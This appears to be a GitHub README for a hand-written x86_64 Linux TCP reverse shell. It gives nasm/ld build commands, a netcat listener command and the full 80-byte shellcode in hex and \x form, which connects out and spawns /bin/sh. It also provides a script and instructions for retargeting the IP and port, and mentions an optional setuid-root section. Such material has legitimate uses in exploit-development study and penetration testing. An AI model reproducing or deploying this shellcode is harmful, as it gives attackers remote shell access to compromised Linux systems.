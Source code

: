 Linux TCP reverse shell for x86_64 architecture.

This is sort of a continuation of the [KiD project](https://github.com/Xre0uS/KiD), instead of generating a shellcode using msfvenon, it's written by me.

Assembling and linking:

```shell
nasm -f elf64 reverse.asm
ld reverse.o -o reverse
```

It works as expected on its own, catch the shell with `nc -lvnp 4444`.

Get the shellcode/opcode with [pwntools](https://github.com/Gallopsled/pwntools):

```python
python3
>>> from pwn import *
>>> file = ELF("reverse")
>>> shellcode = file.section(".text")
>>> print(shellcode.hex())
6a29586a025f6a015e48990f0589c7b02a52687f0000016668115c666a024889e6b2100f054831f6b0210f0540fec64080fe037cf3b03b6a0048bf2f2f62696e2f7368574889e76a004889e6b2000f05
```

Or print it with `\x` notation for C programs:

```python
>>> print(''.join(f'\\x{byte:02x}' for byte in shellcode))
\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x48\x99\x0f\x05\x89\xc7\xb0\x2a\x52\x68\x7f\x00\x00\x01\x66\x68\x11\x5c\x66\x6a\x02\x48\x89\xe6\xb2\x10\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x40\xfe\xc6\x40\x80\xfe\x03\x7c\xf3\xb0\x3b\x6a\x00\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x48\x89\xe7\x6a\x00\x48\x89\xe6\xb2\x00\x0f\x05
```

The shellcode is 80 bytes in size.

There's a section to set uid to root, it's commented out since it won't work if the account executing the shellcode is not root, uncomment if root will be executing.

I've also included a simple script to convert IP and port to hexadecimal in little endian to easily modify the reverse shell.

```bash
./addr2asm.sh 127.0.0.1 4444
IP = 0x0100007f
PORT = 0x5c11
```

Change the IP and port at line 20 and 21.